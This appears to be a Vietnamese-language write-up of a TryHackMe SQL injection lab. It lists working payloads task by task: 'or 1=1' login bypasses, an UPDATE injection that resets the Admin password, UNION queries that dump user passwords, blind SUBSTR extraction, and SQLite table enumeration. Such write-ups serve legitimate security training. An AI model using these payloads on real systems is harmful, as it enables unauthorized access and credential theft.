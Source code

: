 # SQL Injection 1: Input Box Non-String
- Khi nhập id và pass là a, a. Chương trình thực hiện truy vấn
```SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=or 1=1 -- - AND password = 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'```
- Vậy chương trình đã không kiểm tra đầu vào
payload
```1 or 1=1 -- -```

# SQL Injection 2: Input Box String
- ```SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = 'a' AND password = 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'```
payload
```' OR 1=1 --```

# SQL Injection 3: URL Injection
- Chương trình đã filter các kí tự đặc biệt, tuy nhiên ta có thể inject vào url
```profileID=1' or 1=1 -- -&password=a```

# SQL Injection 4: POST Injection
- ta sử dụng burpsuit

# SQL Injection 5: UPDATE Statement
- Lần này không có bug ở login mà bug ở phần edit profile. Khi ta thực hiện update thông tin thì chương trình thực hiện payload của người dùng mà không kiểm tra
![Alt text](bin/image-15.png)

- Solution THM
```
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -
```


# Broken Authentication
```a' or 1=1 -- -```

# Broken Authentication 2


- Để kiểm tra số cột `' UNION SELECT 1,2-- - `
- Leak `' UNION SELECT 1,group_concat(password) FROM users-- -`

# Broken Authentication 3

```
SUBSTR( string, <start>, <length>)
LIMIT <OFFSET>, <LIMIT>
SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)
admin' AND length((SELECT password from users where username='admin'))==37-- -
```

# 
- Khi thực hiện note ta thấy chương trình có bug chỗ tên của chúng ta sẽ được truy vấn
![Alt text](bin/image-16.png)
- Khi bắt đầu khai thác sqli mình thường kiểm tra version hoặc kiểm tra số cột (vì phải dùng union nên số cột phải bằng nhau) trước, mình tham khảo cheatsheet về sqlite [PayloadsAllTheThings - SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

- `' union select 1,2 -- -` để kiểm tra số cột
- `' union select 1,sqlite_version()-- -` để kiểm tra phiên bản

![Alt text](bin/image-17.png)
- Để leak tên table `' union select 1, group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -`